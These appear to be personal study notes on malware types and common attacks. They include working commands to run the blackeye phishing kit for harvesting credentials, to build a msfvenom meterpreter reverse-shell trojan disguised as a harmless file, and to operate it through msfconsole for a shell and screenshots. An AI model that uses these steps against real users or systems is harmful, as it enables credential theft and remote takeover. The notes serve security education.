 ###### <strong style="color: #689d6a">Types of malware</strong>

<span style="color:#c6554f">trojan</span> <span style="color: #3588E9">--></span> is a malware that relies on social engineering. It represents as one thing or one type of a file, while in reality it's something else completely different. Can appear as an image, PDF file, etc. Once it's executed by the target, it can steal the data on that system, run different programs, set itself to be as a backdoor for any future connection.

<span style="color:#c6554f">worms</span> <span style="color: #3588E9">--></span> it exploits unpatched vulnerabilities. A Worm provides its own delivery mechanism so that it can actually automatically spread from system to system.

<span style="color:#c6554f">ransomware</span> <span style="color: #3588E9">--></span> is simply a malicious program that when executed on the system, encrypts all of the data and asks for for money in order to decrypt that data.

<span style="color:#c6554f">virus</span> <span style="color: #3588E9">--></span> self-replicating file infectors.

<span style="color:#c6554f">rootkit</span> <span style="color: #3588E9">--></span> is a malicious program designed to give unauthorized access to a system or a software. Rootkits are hidden deep inside the operating system and they can be can commonly be very very hard to remove.

<span style="color:#c6554f">spyware</span> <span style="color: #3588E9">--></span> is a program that is used to spy on us. Sometimes it's even combined with a adware.
###### <strong style="color: #689d6a">Common Attacks Example</strong>

- <strong style="color:#d79921">Phishing Attack</strong>
	- it will be done using the tool <span style="color:#98971a">blackeye -v.2</span>
	- run the tool
		- `sudo bash blackeye.sh`
	- choose a whebsite - it creates a fake page
		- `type number 1`
	- visit the link
		- `localhost:3333/login.html`
	- --> after log in on the app it will show all the data on the terminal
---
- <strong style="color:#d79921">Infect target with a Trojan</strong>
	- use msfvenom to create the payload(meterpreter)
	- --> reverse_tcp is a reverse shell
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST-192.168.0.2 LPORT=4444 --platform windows -f exe >> shell.exe`
	- --> the shell.exe can be tranfered into fake pdf file, fake image or any type of file
	- `# to run the file a listener must be created`
	  `# a listener is just something that will listen for the incoming connections`
	- `$ msfconsole`
	- `# set up the listener`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set LHOST 192.168.0.2`
		- `> set LPORT 4444`
		- `> run # it will listen for the incoming connections`
		- `meterpreter > getuid`
		  `meterpreter > getuid`
		  `meterpreter > getuid`
	- `# enter a shell`
		- `meterpreter > shell`
	- `# do a screenshot of the target machine`
		- `meterpreter > screenshot`
## **Security Bugs**
---
If the software is hosted on an open port then it is also open for possible attacks from the outside.
